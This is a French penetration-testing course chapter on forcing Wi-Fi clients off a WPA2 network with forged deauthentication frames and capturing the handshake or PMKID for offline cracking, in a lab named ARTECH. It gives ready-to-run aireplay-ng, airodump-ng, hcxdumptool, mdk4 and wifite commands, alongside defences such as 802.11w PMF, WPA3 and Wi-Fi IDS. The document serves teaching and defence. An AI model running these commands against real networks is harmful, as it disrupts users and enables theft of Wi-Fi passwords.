


# 5.4 Déauthentification ciblée et capture handshake

!!! quote "L'analogie de l'agent qui éjecte un client pour observer la rentrée"

    Imaginez un agent posté à la porte d'une boîte de nuit. Il observe les rituels d'admission discrètement, mais ces rituels n'ont lieu que lors d'une nouvelle entrée. Pour capturer le rituel sans attendre des heures, l'agent peut déclencher une fausse alerte qui force tous les clients à sortir, puis observer leur ré-entrée massive. La déauthentification 802.11 fonctionne pareillement. Vous envoyez une trame qui force un client à se déconnecter du Wi-Fi. Quand il se reconnecte automatiquement, le 4-way handshake se déroule sous vos yeux, capturé par votre carte en mode monitor. C'est cet instant précis qui contient toute l'information cryptographique nécessaire au cracking offline.

## Métadonnées du chapitre

Ce chapitre est le cœur de l'attaque WPA2 active. Voici ses caractéristiques.

| Champ | Valeur |
|---|---|
| Durée estimée | 3 heures |
| Niveau | Pratique |
| Prérequis | 5.1, 5.2, 5.3 |
| Livrables | Handshake ARTECH-WIFI capturé et validé |
| Auto-explication | 12 minutes |

## Objectifs pédagogiques

À l'issue de ce chapitre, vous serez capable de :

- Lancer une attaque de déauthentification ciblée
- Capturer un 4-way handshake complet
- Valider la qualité du handshake capturé
- Utiliser l'attaque PMKID en alternative
- Convertir au format hashcat/john
- Connaître les contre-mesures (PMF, 802.11w)

---

## 1. La trame de déauthentification

### 1.1 Mécanique 802.11

La déauthentification fait partie du standard 802.11. Voici son rôle légitime.

```text
USAGE LÉGITIME DE LA DEAUTH
=============================

L'AP envoie une trame deauth à un client pour :
  - Le déconnecter en cas de comportement anormal
  - Libérer un slot d'association
  - Forcer reconnexion après changement config

Le client envoie une trame deauth à l'AP pour :
  - Se déconnecter proprement
  - Roaming vers un autre AP
```

### 1.2 Détournement offensif

Un attaquant peut **forger** une trame deauth en spoofant la MAC de l'AP ou du client. Voici les conséquences.

| Action | Effet |
|---|---|
| Forger deauth en tant qu'AP | Tous les clients ciblés se déconnectent |
| Forger deauth en tant que client | L'AP retire ce client des associations |
| Broadcast deauth | Tous les clients du AP se déconnectent |

### 1.3 Pourquoi le client se reconnecte

Les clients Wi-Fi sont configurés pour se reconnecter **automatiquement** en cas de déconnexion. Le scénario est :

1. Attaquant envoie deauth → client déconnecté
2. Client tente reconnexion automatique → 4-way handshake
3. Attaquant capture le handshake en mode monitor
4. Client est reconnecté en quelques secondes

**Conséquence** : la fenêtre d'observation est très courte (1-3 secondes), mais elle est forcée à la demande.

### 1.4 Trame deauth en clair

La trame deauth est **non chiffrée** dans WPA2 par défaut. C'est ce qui rend l'attaque possible.

| Élément trame | En clair ? |
|---|---|
| MAC source (spoofée) | Oui |
| MAC destination | Oui |
| Reason code | Oui |
| Type de trame | Oui |
| Sequence number | Oui |

Cette absence de protection est le **défaut de conception** de WPA2 vis-à-vis de la deauth.

## 2. Outil aireplay-ng

L'outil `aireplay-ng` est dédié à l'injection. Sa sous-commande `--deauth` est utilisée ici.

### 2.1 Syntaxe

Voici la syntaxe complète d'aireplay-ng pour une attaque deauth.

```bash
aireplay-ng \
    --deauth COUNT \
    -a BSSID_AP \
    -c MAC_CLIENT \
    INTERFACE_MONITOR
```

Voici les options principales détaillées.

| Option | Description |
|---|---|
| `--deauth N` | Envoie N paquets deauth (0 = continu) |
| `-a` | BSSID de l'AP |
| `-c` | MAC du client à cibler (optionnel : broadcast) |
| `-h` | MAC source à utiliser (par défaut MAC carte) |

### 2.2 Deauth ciblée vs broadcast

Voici la différence pratique entre les deux modes.

```bash
# DEAUTH CIBLÉE (un client précis)
sudo aireplay-ng --deauth 5 \
    -a 64:70:02:XX:XX:XX \
    -c AA:BB:CC:DD:EE:FF \
    wlan1mon

# Avantages :
#   - Discrétion (un seul client perturbé)
#   - Précis sur la cible que vous voulez forcer

# DEAUTH BROADCAST (tous les clients)
sudo aireplay-ng --deauth 5 \
    -a 64:70:02:XX:XX:XX \
    wlan1mon

# Avantages :
#   - Force tous les clients à se reconnecter
#   - Plus de chance de capture handshake

# Inconvénients :
#   - Très bruyant
#   - Détectable par IDS
#   - Perturbe activité légitime
```

### 2.3 Nombre de deauth

Combien de deauth envoyer ? Voici les pratiques.

| Nombre | Usage |
|---|---|
| 1-3 | Tentative discrète |
| 5-10 | Standard, équilibre efficacité/discrétion |
| 0 (infini) | Bourrin, à éviter |
| 100+ | Effets DoS, illégal hors mandat |

Pour OmnyAcademy lab, **5 deauth** est suffisant.

## 3. Procédure complète de capture handshake

### 3.1 Workflow

Voici le déroulé chronologique de la capture.



### 3.2 Procédure pratique

Vous travaillez avec **deux terminaux** ouverts en parallèle.

#### Terminal 1 - Capture airodump-ng

```bash
# Préparation Alfa (script chapitre 5.2)
sudo ~/scripts/prepare-alfa.sh wlan1 6

# Lancement capture ciblée
mkdir -p ~/pentest/artech-2026/handshake
cd ~/pentest/artech-2026/handshake/

sudo airodump-ng \
    --bssid 64:70:02:XX:XX:XX \
    --channel 6 \
    -w handshake-artech \
    wlan1mon

# Laisser tourner. Surveiller la zone supérieure droite
# pour la mention "WPA handshake"
```

#### Terminal 2 - Deauth aireplay-ng

```bash
# Identifier un client connecté à ARTECH
# (visible dans terminal 1 dans la section STATION)

# Envoyer 5 deauth ciblées au client
sudo aireplay-ng --deauth 5 \
    -a 64:70:02:XX:XX:XX \
    -c AA:BB:CC:DD:EE:FF \
    wlan1mon

# Sortie typique
# 14:32:15  Waiting for beacon frame (BSSID: 64:70:02:XX:XX:XX) on channel 6
# 14:32:15  Sending 64 directed DeAuth (code 7). STMAC: [AA:BB:CC:DD:EE:FF]
#           [ 5|56  ACKs]
```

#### Terminal 1 - Confirmation capture

Une fois le client reconnecté, le terminal airodump-ng doit afficher :

```text
CH  6 ][ Elapsed: 5 mins ][ 2026-04-30 14:33 ][ WPA handshake: 64:70:02:XX:XX:XX
```

La mention `WPA handshake: BSSID` confirme la capture.

### 3.3 Si le handshake ne capture pas

Plusieurs causes possibles. Voici les diagnostics.

| Symptôme | Cause | Action |
|---|---|---|
| Pas de "WPA handshake" affiché | Capture incomplète | Renouveler deauth |
| Client ne se reconnecte pas | MAC client expirée | Cibler un autre client |
| PWR client trop faible | Distance | Se rapprocher physiquement |
| Driver problème | Injection ne marche pas | Test aireplay-ng --test |
| AP utilise PMF (802.11w) | Deauth protégée | Voir attaque PMKID |

## 4. Validation du handshake capturé

Une mention "WPA handshake" dans airodump-ng ne garantit pas que les **4 messages** sont capturés. Validez.

### 4.1 Validation avec aircrack-ng

Voici la commande de validation rapide.

```bash
# Test du handshake
aircrack-ng handshake-artech-01.cap

# Sortie typique succès
# Reading packets, please wait...
# Opening handshake-artech-01.cap
# Read 142 packets.
#
#    #  BSSID              ESSID                     Encryption
#    1  64:70:02:XX:XX:XX  ARTECH-WIFI               WPA (1 handshake)
#
# Choosing first network as target.

# Sortie typique échec
#    1  64:70:02:XX:XX:XX  ARTECH-WIFI               WPA (0 handshake)
```

### 4.2 Validation avec hcxpcapngtool

Pour une validation plus fine et conversion vers le format hashcat, utilisez `hcxpcapngtool` (suite hcxtools).

```bash
# Installation
sudo apt install hcxtools -y

# Conversion vers format hashcat
hcxpcapngtool -o artech.22000 handshake-artech-01.cap

# Sortie typique
# reading from handshake-artech-01.cap
#
# summary capture file
# ----------------------------
# file name.....: handshake-artech-01.cap
# file type.....: pcapng 1.0
# ...
# EAPOL frames..: 4
# EAPOL pairs (total)..: 1
# EAPOL pairs (best)..: 1
# EAPOL m1 m2 RC checked..: 1
# EAPOL m2 m3 RC checked..: 1
# EAPOL m3 m4 RC checked..: 1
# 22000 hashes written...: 1
```

La présence de `22000 hashes written: 1` confirme un handshake **utilisable pour hashcat**.

### 4.3 Format 22000

Le format `.22000` est le format hashcat moderne pour WPA. Voici sa structure.

```text
FORMAT 22000 (HASHCAT)
========================

WPA*02*MIC*MAC_AP*MAC_CLIENT*ESSID_HEX*ANONCE*EAPOL_FRAME*MESSAGE_PAIR

Exemple :
WPA*02*ed1d23bd13e2f3...*647002XXXXXX*aabbccddeeff*4152544543482d57494649*5e4a3f...*0103007502...*02

Champs :
  WPA*02       : type WPA (vs PMKID = 01)
  MIC          : Message Integrity Code
  MAC_AP       : BSSID
  MAC_CLIENT   : MAC client (handshake)
  ESSID_HEX    : SSID en hex
  ANONCE       : Authenticator nonce
  EAPOL_FRAME  : Frame EAPOL complète
  MESSAGE_PAIR : Quelle paire (M1/M2 ou M2/M3 ou M3/M4)
```

Ce format est **directement utilisable** par hashcat (chapitre 5.6).

## 5. Attaque PMKID alternative

Quand le 4-way handshake n'est pas capturable (clients absents, PMF actif), l'attaque PMKID est une alternative.

### 5.1 Principe rappelé

Vu en chapitre 5.1, le PMKID est dérivé du PMK et apparaît dans le **premier message** d'un handshake si l'AP le supporte.

### 5.2 Outils PMKID

L'outil `hcxdumptool` capture spécifiquement les PMKID.

```bash
# Installation
sudo apt install hcxdumptool -y

# Capture PMKID ciblée
sudo hcxdumptool \
    -i wlan1mon \
    -o artech-pmkid.pcapng \
    --filterlist_ap=cible.txt \
    --filtermode=2

# Le fichier cible.txt contient :
# 64:70:02:XX:XX:XX

# La capture PMKID se déclenche dès qu'un client tente
# de s'associer (pas besoin de handshake complet)
```

### 5.3 Conversion PMKID

Une fois la capture obtenue, conversion au format hashcat.

```bash
# Conversion
hcxpcapngtool -o artech-pmkid.22000 artech-pmkid.pcapng

# Vérification
cat artech-pmkid.22000
# Doit afficher au moins une ligne commençant par WPA*01* (PMKID)
```

### 5.4 PMKID vs handshake

Voici les différences pratiques.

| Aspect | Handshake 4-way | PMKID |
|---|---|---|
| Nécessite client | Oui | Non |
| Vitesse capture | 1-30 minutes | Instantané |
| Compatibilité AP | Tous WPA2 | AP qui exposent PMKID (~50%) |
| Cracking | Identique | Identique |
| Détection PMF | Bloque deauth | Pas affecté |

## 6. Contre-mesure - Protected Management Frames

### 6.1 Standard 802.11w

Le standard **802.11w** (Protected Management Frames, PMF) chiffre les trames de management critiques.

| Trame | Protégée par PMF ? |
|---|---|
| Beacon | Non (par design) |
| Probe response | Non |
| **Deauthentication** | OUI |
| **Disassociation** | OUI |
| Action management | OUI |

### 6.2 Activation PMF

PMF se configure sur le routeur. Voici les modes.

| Mode | Comportement |
|---|---|
| Disabled | PMF désactivé (par défaut souvent) |
| Optional | PMF si client compatible |
| Required | Refuse clients non compatibles |

### 6.3 Compatibilité

Voici les compatibilités client/AP en 2026.

| Standard | PMF |
|---|---|
| WPA2 (initial) | Optionnel ajout |
| WPA2 + 802.11w | Optionnel |
| WPA3 | Obligatoire |
| Wi-Fi 6 (Wi-Fi Alliance) | Obligatoire |

### 6.4 Effet sur l'attaque

Quand PMF est actif :

```text
EFFET PMF SUR DEAUTH ATTACK
==============================

PMF Disabled : 
  Deauth attack fonctionne normalement
  
PMF Optional :
  Deauth attack fonctionne pour clients legacy
  Bloquée pour clients PMF-aware
  
PMF Required :
  Deauth attack BLOQUÉE
  → Aller à PMKID attack
```

### 6.5 Configuration ARTECH

Pour le scénario lab, ARTECH a PMF désactivé (par défaut TP-Link Archer C7). C'est ce qui rend l'attaque deauth possible.

```text
CONFIGURATION OPENWRT ARTECH (cycle 0 module 3.4)
====================================================

Pour le lab d'attaque :
  /etc/config/wireless
  config wifi-iface
    option ieee80211w '0'  # PMF désactivé

Pour le lab défensif (cycle 2 ou production) :
    option ieee80211w '2'  # PMF required
```

## 7. Considérations de discrétion

L'attaque deauth est **détectable**. Voici les indicateurs côté défense.

### 7.1 Indicateurs côté AP

Voici ce que verrait un IDS Wi-Fi.

| Indicateur | Détection |
|---|---|
| Volume deauth élevé | Anomalie statistique |
| Deauth depuis MAC AP non confirmée | Spoofing MAC source |
| Déconnexions multiples simultanées | Attaque broadcast |
| Reason code suspect | Codes inhabituels |

### 7.2 Outils de détection

Plusieurs outils détectent les attaques deauth.

| Outil | Type |
|---|---|
| Kismet (mode IDS) | Open source |
| Wireshark + filtres custom | Manuel |
| WIPS (Wireless IPS) | Commercial (Cisco, Aruba) |
| Suricata avec règles 802.11 | Open source |

### 7.3 Recommandations défensives

Voici les recommandations pour ARTECH face aux attaques deauth.

| Recommandation | Effet |
|---|---|
| Activer PMF (802.11w) en mode required | Bloque deauth attack |
| Migration WPA3-SAE | Inclut PMF obligatoire |
| Détection IDS Wi-Fi | Alerte sur anomalies |
| Réduction puissance émission | Limite zone capture |
| Politique BYOD restrictive | Réduit surface attaque |

## 8. Cas pratique - Capture handshake ARTECH

### 8.1 Scénario

Vous capturez le handshake d'un client ARTECH-WIFI dans votre lab.

### 8.2 Workflow complet

Voici le séquencement à suivre.



### 8.3 Commandes consolidées

Voici la séquence complète.

```bash
# Préparation
mkdir -p ~/pentest/artech-2026/handshake
cd ~/pentest/artech-2026/handshake/

# Étape 1 - Préparation Alfa
sudo ~/scripts/prepare-alfa.sh wlan1 6

# Étape 2 - airodump capture (Terminal 1)
sudo airodump-ng \
    --bssid 64:70:02:XX:XX:XX \
    --channel 6 \
    -w handshake-artech \
    wlan1mon

# Attendre identification d'un client (1-2 min)
# Noter sa MAC (par ex. AA:BB:CC:DD:EE:FF)

# Étape 3 - aireplay deauth (Terminal 2)
sudo aireplay-ng --deauth 5 \
    -a 64:70:02:XX:XX:XX \
    -c AA:BB:CC:DD:EE:FF \
    wlan1mon

# Étape 4 - Vérification dans Terminal 1
# Doit afficher "WPA handshake: 64:70:02:XX:XX:XX"

# Si oui, arrêter Terminal 1 avec Ctrl+C

# Étape 5 - Validation
aircrack-ng handshake-artech-01.cap | grep "1 handshake"

# Étape 6 - Conversion format 22000 pour hashcat
hcxpcapngtool -o artech-handshake.22000 handshake-artech-01.cap

# Vérification
cat artech-handshake.22000
ls -lh artech-handshake.22000

# Hashing forensic
sha256sum *.cap *.22000 > MANIFEST.sha256
```

### 8.4 Documentation forensic

Pour la suite (rapport module 10), documentez votre action.

```text
JOURNAL OFFENSIF - 2026-XX-XX
==============================

Action : Capture 4-way handshake ARTECH-WIFI

Cible :
  BSSID : 64:70:02:XX:XX:XX
  ESSID : ARTECH-WIFI
  Canal : 6
  Sécurité : WPA2-PSK CCMP

Méthode :
  airodump-ng capture ciblée
  aireplay-ng deauth ciblée 5 paquets
  Client cible : AA:BB:CC:DD:EE:FF

Outils :
  - airodump-ng (suite aircrack-ng v1.7)
  - aireplay-ng (suite aircrack-ng v1.7)
  - hcxpcapngtool (hcxtools v6.x)
  - Carte Alfa AWUS036ACS

Résultat :
  4-way handshake capturé en 47 secondes
  Validation aircrack-ng : OK
  Conversion 22000 : OK
  Hash SHA-256 : a1b2c3...

Mapping MITRE ATT&CK :
  T1040 - Network Sniffing
  T1110.002 - Brute Force: Password Cracking (préparé)
```

## 9. Alternatives à aireplay-ng

Plusieurs outils alternatifs existent. Voici les principaux.

### 9.1 mdk4

`mdk4` est un outil de stress test Wi-Fi avancé.

```bash
# Installation
sudo apt install mdk4 -y

# Deauth attack avec mdk4
sudo mdk4 wlan1mon d -B 64:70:02:XX:XX:XX -c 6
```

### 9.2 wifite

`wifite` est un wrapper automatisant l'attaque WPA2 complète.

```bash
# Installation
sudo apt install wifite -y

# Lancement (interactif)
sudo wifite

# wifite scanne, identifie, attaque, capture handshake
# automatiquement. Mode "tout-en-un".
```

### 9.3 fluxion

`fluxion` ajoute l'ingénierie sociale (faux portail captif).

```bash
# Plus avancé : combine deauth + faux AP + portal
# Ne sera pas couvert dans ce module (cycle 2 module 12)
```

## 10. Auto-évaluation

Vérifiez votre maîtrise par les questions suivantes.

| # | Question | Réponse |
|---|---|---|
| 1 | Outil pour deauth ? | aireplay-ng |
| 2 | Protection contre deauth ? | PMF (802.11w) |
| 3 | Combien de deauth typique ? | 5 |
| 4 | Format hashcat moderne WPA ? | 22000 |
| 5 | Outil de conversion ? | hcxpcapngtool |
| 6 | Alternative si PMF actif ? | PMKID attack |
| 7 | Outil capture PMKID ? | hcxdumptool |
| 8 | Mention airodump succès ? | "WPA handshake: BSSID" |

## 11. Synthèse

Voici les points clés à retenir.

```text
DEAUTH ET CAPTURE HANDSHAKE

PROCÉDURE
  Terminal 1 : airodump-ng capture ciblée
  Terminal 2 : aireplay-ng --deauth 5
  Vérifier : "WPA handshake" affiché
  Valider : aircrack-ng / hcxpcapngtool
  Convertir : format 22000

OUTILS CLÉS
  aireplay-ng    : deauth
  airodump-ng    : capture
  aircrack-ng    : validation
  hcxpcapngtool  : conversion 22000
  hcxdumptool    : PMKID alternative

OPTIONS AIREPLAY
  --deauth N    : nombre paquets
  -a BSSID      : AP cible
  -c CLIENT     : client (omettre = broadcast)
  wlan1mon      : interface

CONTRE-MESURE
  PMF (802.11w) : chiffre management
  WPA3-SAE      : PMF obligatoire
  IDS Wi-Fi     : détection deauth

FORMATS
  PCAP-NG  : capture brute
  22000    : hashcat moderne (WPA + PMKID)
  hccapx   : hashcat ancien (déprécié 2020+)

DISCRÉTION
  5 deauth = équilibre
  Ciblé > broadcast
  Détectable IDS Wi-Fi
  Lab uniquement

NEXT : DICTIONNAIRES (5.5)
```

---

**Chapitre précédent** : [5.3 airodump-ng capture passive](5-3-airodump-ng-capture.md)

**Chapitre suivant** : [5.5 Construction de dictionnaires français](5-5-dictionnaires-francais.md)
